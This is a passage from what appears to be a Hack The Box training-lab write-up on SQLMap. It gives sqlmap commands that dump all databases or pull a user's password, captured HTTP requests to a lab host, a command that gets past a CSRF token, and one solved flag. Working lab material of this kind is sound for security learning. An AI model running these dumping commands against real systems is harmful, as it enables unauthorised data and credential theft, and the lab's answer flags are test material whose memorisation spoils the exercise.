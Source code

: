 Results: PARAMETER_STYLE


**What's the Kimberly user's password? (Case #1)**

We can dump all and read the output: 

```bash
sqlmap -r r1 --batch --dump-all   --exclude-sysdbs
```

Or narrow our search:

```bash
sqlmap -r r1 --dump --columns --where="name LIKE 'Kimberly%'" --batch
```


### Advanced SQLMap Usage

**What's the contents of table flag8? (Case #8)**

We capture the request and save under name r8:

```bash
POST /case8.php HTTP/1.1
Host: 94.237.52.110:38973
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 52
Origin: http://94.237.52.110:38973
Connection: keep-alive
Referer: http://94.237.52.110:38973/case8.php
Cookie: PHPSESSID=lk2ocjdbcss24spch123ethmn5
Upgrade-Insecure-Requests: 1

id=1&t0ken=D7e111IQPQejRSZKiOjZ8qNYuvgEUIfHXVavtbd3I
```

We infer that the parameter t0ken is a csrf-token protection:

```bash
sqlmap -r r8 --dump -T flag8 --csrf-token=t0ken --batch
```

Results:  HTB{y0u_h4v3_b33n_c5rf_70k3n1z3d} 


**What's the contents of table flag9? (Case #9)**

We capture the request and save under name r9:

```bash
GET /case9.php?id=1&uid=3343645612 HTTP/1.1
Host: 94.237.52.110:38973
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://94.237.52.110:38973/case9.php
Cookie: PHPSESSID=lk2ocjdbcss24spch123ethmn5
Upgrade-Insecure-Requests: 1


```

